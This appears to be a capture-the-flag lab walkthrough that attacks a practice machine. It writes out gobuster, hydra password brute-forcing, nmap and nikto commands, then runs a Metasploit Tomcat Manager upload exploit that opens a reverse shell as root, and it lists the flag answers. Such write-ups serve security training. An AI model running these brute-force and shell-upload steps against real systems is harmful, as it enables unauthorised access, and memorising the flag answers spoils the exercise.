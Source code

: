 ```BASH
gobuster dir -u "http://10.10.148.25/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```
![image](https://github.com/user-attachments/assets/23f686c9-345a-47e5-83e2-01a4b5b4d991)
What directory can you find, that begins with a "g"?
<pre>/guidelines</pre>  

<span style="line-height:0.5;">&nbsp;</span>

Whose name can you find from this directory?  
![image](https://github.com/user-attachments/assets/a1c7ea0b-435f-4b45-90e3-9589637fd0f6)
<pre>bob</pre>

<span style="line-height:0.5;">&nbsp;</span>

What directory has basic authentication?
![image](https://github.com/user-attachments/assets/6864c34a-dcca-4f8a-95e4-15dd57a6fd76)
<pre>protected</pre>

<span style="line-height:0.5;">&nbsp;</span>

What is bob's password to the protected part of the website?
```BASH
sudo hydra -l bob -P /usr/share/wordlists/rockyou.txt 10.10.148.25 http-get /protected
```
![image](https://github.com/user-attachments/assets/d00e7c3b-52a3-4fde-a52e-5034939784af)
<pre>bubbles</pre>

<span style="line-height:0.5;">&nbsp;</span>

What other port that serves a webs service is open on the machine?
```BASH
nmap 10.10.148.25
```
![image](https://github.com/user-attachments/assets/b14ccc4d-b4dc-4c5c-9d1d-fa0e4214e8d9)
<pre>1234</pre>

<span style="line-height:0.5;">&nbsp;</span>

What is the name and version of the software running on the port from question 5?
![image](https://github.com/user-attachments/assets/4725bf64-5644-4d03-bf20-dd25d243aee4)
<pre>Apache Tomcat/7.0.88</pre>

<span style="line-height:0.5;">&nbsp;</span>

Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.
```BASH
nikto -h http://10.10.148.25:1234/manager/html -id bob:bubbles
```
![image](https://github.com/user-attachments/assets/c52c2ca9-debf-48b2-97c7-247a09b11e88)
<pre>5</pre>

<span style="line-height:0.5;">&nbsp;</span>

What version of Apache-Coyote is this service using?
<pre>1.1</pre>

<span style="line-height:0.5;">&nbsp;</span>

What is the server version?
```BASH
nikto -h http://10.10.148.25:80 -id bob:bubbles
```
![image](https://github.com/user-attachments/assets/b3813caf-2e5d-4c14-aa28-4a2572d6244a)
<pre>Apache/2.4.18</pre>

<span style="line-height:0.5;">&nbsp;</span>

[Metasploit](https://www.metasploit.com/) can be used to exploit Tomcat Manager vulnerabilities using the tomcat_mgr_upload exploit module.

Run Metasploit:
```BASH
msfconsole
```

Use exploit module:
```BASH
use exploit/multi/http/tomcat_mgr_upload
```

Set required options:
```BASH
set RHOSTS 10.10.148.25
set LHOST 10.10.168.110
set RPORT 1234
set LPORT 4444
set HttpPassword bubbles
set HttpUsername bob
```

Use run command
```BASH
run
```
![image](https://github.com/user-attachments/assets/6a2e44af-f51c-428b-92f1-0102727b9083)

What user did you get a shell as?  

![image](https://github.com/user-attachments/assets/acef8c06-b490-4770-a858-57f3e6d61995)
<pre>root</pre>

What flag is found in the root directory?  

![image](https://github.com/user-attachments/assets/07afa7ce-89c5-4e39-9836-a0c178651576)
<pre>ff1fc4a81affcc7688cf89ae7dc6e0e1</pre>


